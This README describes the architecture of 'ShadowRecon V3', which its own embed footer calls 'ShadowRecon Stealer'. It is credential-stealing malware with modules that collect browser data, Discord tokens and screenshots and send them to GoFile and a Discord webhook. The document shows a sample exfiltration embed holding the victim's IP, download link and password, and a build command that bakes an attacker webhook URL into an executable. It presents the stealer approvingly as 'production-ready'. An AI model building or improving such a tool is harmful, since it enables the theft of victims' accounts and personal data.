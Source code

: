 # ShadowRecon V3 - Architecture Overview

## Clean, Modular, Efficient Structure

### Core Architecture

```
src/
├── config/           # Configuration management
│   └── config.js    # Centralized configuration
├── core/            # Core utilities and systems
│   ├── embedBuilder.js     # Consistent Discord embed creation
│   ├── serviceManager.js   # Service initialization & management
│   ├── statistics.js       # Statistics collection & formatting
│   ├── logger.js           # Structured logging system
│   ├── errors.js           # Centralized error handling
│   ├── fileManager.js      # File operations management
│   ├── utils.js            # Common utility functions
│   ├── tokenUtils.js       # Token processing utilities
│   └── encryption.js       # Encryption utilities
├── modules/         # Feature modules
│   ├── browsers/    # Browser data collection
│   └── screenshot/  # Screenshot capture
├── services/        # External services
│   ├── discord/     # Discord API & webhook handling
│   └── upload/      # File upload services (GoFile, etc.)
└── main.js         # Application entry point
```

### Key Improvements

#### 1. **Consistent Embed Styling**
- All Discord embeds now use the same clean style
- GoFile embeds match token embed formatting
- Removed verbose titles and unnecessary fields
- Standardized field structure and footer text

#### 2. **Service Management**
- **ServiceManager**: Centralized service initialization
- Better dependency management
- Cleaner resource cleanup
- Modular service loading

#### 3. **Clean Code Structure**
- **EmbedBuilder**: Consistent Discord embed creation
- Removed all test data and hardcoded values
- Eliminated debugging artifacts
- Improved error handling consistency

#### 4. **Modular Design**
- Independent, reusable modules
- Clear separation of concerns
- Easy to extend and maintain
- Professional architecture

### Embed Style Standardization

**Before:**
```javascript
// Verbose GoFile embed with titles and complex structure
{
    title: ":file_folder: Data Archive",
    color: 0x7289da,
    fields: [
        {
            name: ":link: Download Link",
            value: "[Click here to download](url)",
        },
        {
            name: ":warning: Important",
            value: "This archive is password protected...",
        }
    ]
}
```

**After:**
```javascript
// Clean, consistent style matching token embeds
{
    color: null,
    fields: [
        {
            name: ":earth_africa: IP",
            value: "`192.168.1.1`",
            inline: true
        },
        {
            name: ":file_folder: Download",
            value: "`https://gofile.io/d/xyz`",
            inline: false
        },
        {
            name: ":key: Password",
            value: "`secretpass123`",
            inline: true
        }
    ],
    footer: {
        text: "ShadowRecon Stealer"
    }
}
```

### Usage

The application maintains the same simple interface:

```bash
# Install dependencies
npm install

# Run application
npm start

# Build executable
./build.sh https://webhook-url.com AppName
```

### Benefits

1. **Maintainable**: Clean, well-organized code structure
2. **Modular**: Independent modules that can be extended easily
3. **Consistent**: Standardized embed styling throughout
4. **Efficient**: Optimized resource management and cleanup
5. **Professional**: Enterprise-grade architecture and error handling

The project is now production-ready with a clean, modular, and efficient codebase that follows professional development standards.